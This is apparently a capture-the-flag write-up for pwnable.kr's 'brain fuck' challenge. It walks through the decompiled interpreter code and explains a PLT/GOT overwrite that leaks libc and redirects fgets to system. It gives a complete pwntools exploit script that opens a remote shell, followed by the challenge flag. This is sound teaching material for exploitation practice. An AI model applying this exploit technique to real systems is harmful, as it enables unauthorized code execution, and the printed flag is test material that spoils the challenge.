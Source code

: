 # brain fuck

## Description

brain fuck - 150 pt

>I made a simple brain-fuck language emulation program written in C. <br>
>The [ ] commands are not implemented yet. However the rest functionality seems working fine. <br>
>Find a bug and exploit it to get a shell. <br><br>
>Download : http://pwnable.kr/bin/bf <br>
>Download : http://pwnable.kr/bin/bf_libc.so <br><br>
>Running at : nc pwnable.kr 9001

## Background

### Brainfuck

Brainfuck is a simple programming language that consists of 8 commands. It uses a simple a one-dimensional array, a movable data pointer (initialized to point to the start of the array) and two streams of bytes for input and output.

Here are the viable commands: 

|Character|Meaning|
|---------|-------|
| >| 	Increment the data pointer by one|
|<| 	Decrement the data pointer by one |
|+|Increment the byte at the data pointer by one.|
|-|Decrement the byte at the data pointer by one.|
|.|	Output the byte at the data pointer.|
|,|Accept one byte of input, storing its value in the byte at the data pointer.|

The last two commands are irrelevant to the challenge, but you are welcome to [read](https://en.wikipedia.org/wiki/Brainfuck) about them. 

## Solution

### Installation

Usualy I don't explain how to download and run the challenge, but since running it locally isn't as trivial as usual, this time I will.

after `wget`ing both the binary and the libc, in order to make the binary use the libc from the challenge, and not the one on one's computer, they may use `patchelf`, or `pwninit` (which uses `patchelf`, but does all that work for you 🙃).

### Understanding the binary

Let's take a look at the functionality of the binary, using IDA:

**main.c:**
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int i; // [esp+28h] [ebp-40Ch]
  _BYTE v5[1024]; // [esp+2Ch] [ebp-408h] BYREF
  unsigned int v6; // [esp+42Ch] [ebp-8h]

  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  p = (int)&tape;
  puts("welcome to brainfuck testing system!!");
  puts("type some brainfuck instructions except [ ]");
  memset(v5, 0, sizeof(v5));
  fgets(v5, 1024, stdin);
  for ( i = 0; i < strlen(v5); ++i )
    do_brainfuck((char)v5[i]);
  return 0;
}
```

**do_brainfuck:**
```c
int __cdecl do_brainfuck(char a1)
{
  int result; // eax
  _BYTE *v2; // ebx

  result = a1 - 43;
  switch ( a1 )
  {
    case '+':
      result = p;
      ++*(_BYTE *)p;
      break;
    case ',':
      v2 = (_BYTE *)p;
      result = getchar();
      *v2 = result;
      break;
    case '-':
      result = p;
      --*(_BYTE *)p;
      break;
    case '.':
      result = putchar(*(char *)p);
      break;
    case '<':
      result = --p;
      break;
    case '>':
      result = ++p;
      break;
    case '[':
      result = puts("[ and ] not supported.");
      break;
    default:
      return result;
  }
  return result;
}
```

The program saves the address where `tape`, a lable somewhere in the `bss` section, is - at `p`, another location in the `bss` section. It also creates a local buffer of length 1024 bytes, and prompts the user for 1024 bytes of input - saving them in that buffer.

Then, the program iterates through that buffer and, character by character, it sends them to the `do_brainfuck` function. This function is the heart of the program. It moves around the data pointer `p` over at `tape` and inputs/outputs data there, according to the character it got as input.

Basically, this program is a brainfuck interpreter of some sort.

### Exploit

Let's check the security features:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

The NX bit is set, and there are stack canaries. So, trying any shellcode-based exploits won't work.

Let's take a different approach: as can be seen, there's only partial RELRO - this means that we can change the PLT.

Looking at the binary using IDA's A view, it seems that the `tape` is, in fact, very close to the PLT. 

So let's do the following: 
* move `p` to point at one of the libc functions at the PLT - like `puthcar` for example.
* call the function so it's address will be loaded correctly at the PLT (lazy loading...)
* leak it using the `.` command
* update some addresses at the PLT: 
    * `putchar` --------> `main`
    * `memset` --------> `gets`
    * `fgets` --------> `system`
* call putchar by giving `.`
* give `fgets` `/bin/sh` as input

If you are wondering why should we do these redirections - recall the calls to `fgets` and `memset` in `main`:

```c
memset(v5, 0, sizeof(v5));
fgets(v5, 1024, stdin);
```

Both functions give the local buffer as the first arguments. After the redirecting of the PLT, `memset` will call `gets` - which will allow us to write to the buffer `/bin/sh`, and `fgets` will call `system` - which will execute `/bin/sh`.

**Side Note:** When I first attempted this challenge, I tried to leak the address of `memset` instead of `putchar` (not sure why). Anyhow, the exploit didn't work and I spent a couple of hours debugging. Then, I noticed that `memset`'s address was *way* off from the other libc functions - which made me realise it was probably linked from another library. 

### Exploit code

```python
from pwn import *

libc = ELF('./bf_libc.so')
conn = remote('pwnable.kr', 9001)

conn.recvuntil(b'except [ ]\n')

# Send payload
payload = '<' * 0x70 + '.' # p ---> putchar @ PLT, call putchar 
payload += '.>' * 0x4  + '<' * 0x4 # leak the address
payload += ',>' * 0x4 + '<' * 0x4 # change putchar @ PLT
payload += '<' * 0x4 + ',>' * 0x4 + '<' * 0x4 # change memset @ PLT
payload += '<' * 0x1c + ',>' * 0x4 # change fgets @ PLT
payload += '.' # call putchar

conn.sendline(payload.encode())

# Get the address of putchar
conn.recv(1)
putchar_addr = int(conn.recv(4)[::-1].hex(), 16)

# Calculate the address of gets and system
gets_addr = (putchar_addr - libc.symbols['putchar']) + libc.symbols['gets']
system_addr = (putchar_addr - libc.symbols['putchar']) + libc.symbols['system']

# Give input to perform redirections
conn.send(p32(0x08048671)) # putchar ----> main
conn.send(p32(gets_addr)) # memset ----> gets
conn.send(p32(system_addr)) # fgets ----> system

# Input for gets
conn.sendline(b'/bin/sh\x00') 

conn.interactive()
```

```bash
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
$ cat flag
BrainFuck? what a weird language..
```
